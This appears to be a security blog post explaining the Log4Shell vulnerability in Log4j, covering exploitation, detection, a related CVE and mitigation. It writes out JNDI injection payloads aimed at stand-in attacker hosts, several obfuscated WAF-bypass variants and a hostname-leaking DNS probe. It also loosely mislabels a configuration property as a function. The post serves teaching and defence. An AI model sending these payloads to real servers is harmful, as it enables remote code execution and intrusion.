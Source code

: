 ```yaml
---
layout: single
title: '<span class="post">Log4Shell (CVE-2021-44228) Explanation of vulnerability | Pentesting </span>'
excerpt: "The Log4Shell vulnerability has been revolutionising companies since it was discovered, in this post I will tell you what it is, how to detect it, exploit it and mitigate it."
date: 2021-12-16
header:
  teaser: /assets/images/log4shell/logo.png
  teaser_home_page: true
  image_description: log4shell
categories:
  - post
  - article
tags:  
  - log4shell
  - cve-2021-44228
  - log4j
  - java
  - zero-day
  - cybersecurity
show_time: true
toc: true
toc_label: "Content"
toc_sticky: true
---
```


# Contextualisation

The RCE vulnerability occurs because the `log4j2.formatMsgNoLookups` function in the JNDI library, which is used to access external resources or Java references, does not perform a correct control of the loaded value, then with LDAP we indicate where we want to access. So, the attacker can send a request, either:

- To obtain resources through code injection previously encoded in Base 64.
- To obtain a reverse shell connection by remotely uploading a file written in Java and already compiled, `Exploit.class`, which will be interpreted when uploaded by the server.
- Execution of arbitrary code on the target server.

As the server downloads, stores and loads whatever it gets from the external resource (in the case of an attacker, its own server).

# Exploit

The payload commonly takes the format `${jndi:ldap://IP_ATACKER_SERVER/file}`.

- The attacker sends a manipulated parameter (e.g. ?x=) to the server (via HTTP or another protocol). For example the following string: `${jndi:ldap://malicious-site.com/exp}` via a GET request.
- The vulnerable server receives the request with the *payload*.
- The vulnerability in *Log4j* allows the *payload* to be executed and the server makes a request to the attacker's site. The request is made via the JNDI protocol.
- The response from the attacker's server contains a remote Java file (e.g. an *exploit.class* file) that is injected into the process running on the vulnerable server.
- Code is executed on the vulnerable server.

<a href="/assets/images/log4shell/log4shell/exploit.png"><img src="/assets/images/log4shell/exploit.png" alt="log4shell explotation"></a>

Although the payload can be intercepted by a WAF easily, it can be bypassed in any number of ways:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

These consist of varying and trying not to send the payload in a clear way.

There is also another protocol that can be exploited, `rmi` which can be used with the `mashalsec` utility and is seen in the last payload shown.

<a href="/assets/images/log4shell/defenses.png"><img src="/assets/images/log4shell/defenses.png" alt="log4shell defenses"></a>

> Note: It must be taken into account that each 4j product affected (Apache, Cisco, RedHat, Citrix, etc... ) is exploited differently depending on its configuration and network architecture (in most of them it is enough to modify the payload to bypass possible WAFs).
> 

# Detection

To detect the vulnerability without causing damage to the asset, we must perform the steps shown in the Exploitation section. But trying to use a payload that we simply access to our server, for example: `${jndi:ldap://IP_SERVER_ATACANTE}`.

Subsequently, when launched with either that payload or a bypass variant, if we receive a request on our server, we will be able to confirm that our target is vulnerable.

There are several options when intercepting the request:

- Mount HTTP server to capture incoming requests (e.g. with Python) to confirm that the request to the server we were targeting in the injected code has been received.
- We can use a DNS server to help us, so that by encoding the name of the target in the request, the request is received with the name of the affected host, thus confirming that it is vulnerable.
    
    Example: `${jndi:ldap://x${hostName}.dns1.myserver.com/a}`.
    
- Using Nuclei and using `interactsh` as the server receiving requests.
    - Link to Nuclei template(https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Vulnerability variants

- CVE-2021-45046
    
  * This variant allows to generate a denial of service (DoS) attack, this vulnerability has a relatively low severity and a high complexity of exploitation.
    
  * This variant exploits the same JNDI vulnerability, but unlike Log4Shell, this one, thanks to the control over the Thread Context Map (TCM) when not using a default design pattern, can create malicious input data through a JNDI search pattern that leads to a DoS attack.
    

# Affected Versions

Log4j 2.0 to 2.14.1

# Mitigation

Upgrade the library to `Log4j 2.16`.

- **CVE-2021-44228:**
    - The affected functionality has been completely removed.
- **CVE-2021-45046:**
    - Removed support for message search patterns and disabled JNDI functionality by default.
